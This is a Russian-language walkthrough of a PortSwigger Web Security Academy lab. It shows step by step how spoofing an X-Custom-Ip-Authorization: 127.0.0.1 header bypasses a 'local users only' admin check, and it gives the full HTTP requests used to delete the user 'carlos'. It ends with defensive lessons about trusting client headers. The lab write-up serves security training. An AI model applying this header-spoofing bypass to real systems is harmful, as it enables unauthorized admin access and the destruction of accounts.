

лаба https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass

В интерфейсе администрирования этой лаборатории есть уязвимость для обхода аутентификации

задание:

получите имя заголовка, а затем используйте его для обхода аутентификации лаборатории. Войдите в интерфейс администратора и удалите пользователя `carlos`


----------

c ходу в админку залететь не вышло GET /admin HTTP/2
ответ 401 невториз   Admin interface only available to local users

( Интерфейс администратора доступен только локальным пользователям )

ну раз хочет локально - тогда вот:

меняю Host: localhost
не работает!

и добавляю  X-Custom-Ip-Authorization: 127.0.0.1


```
GET /admin HTTP/2
Host: 127.0.0.1
X-Custom-Ip-Authorization: 127.0.0.1
```
 или так

```
GET /admin HTTP/2
Host: localhost
X-Custom-Ip-Authorization: 127.0.0.1
```


и попадаю в админку




и вижу в html (или перехватом можно)
```html
carlos - </span>
<a href="/admin/delete?username=carlos">Delete</a>
```

отправляю
```http
GET /admin/delete?username=carlos HTTP/2
Host: localhost
X-Custom-Ip-Authorization: 127.0.0.1
Cookie: session=b6lfE6frLUCka74lPsxQEd9eu04pqINE
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://0aec00ce03729d73807e672c007f00bb.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

- лаба решена!
  карлос удален!
------

выводы

хост вообще не валидировался - и никаких провероок  нет
получилось попасть в локальную сеть через открытую

и еще получилось попасть а админку -  а админка без пароля

нельзя доверять заголовкам от клиента типа x-forwarded-for или x-custom-ip-authorization

ip адрес должен определяться на уровне соединения

короче - детский сад все это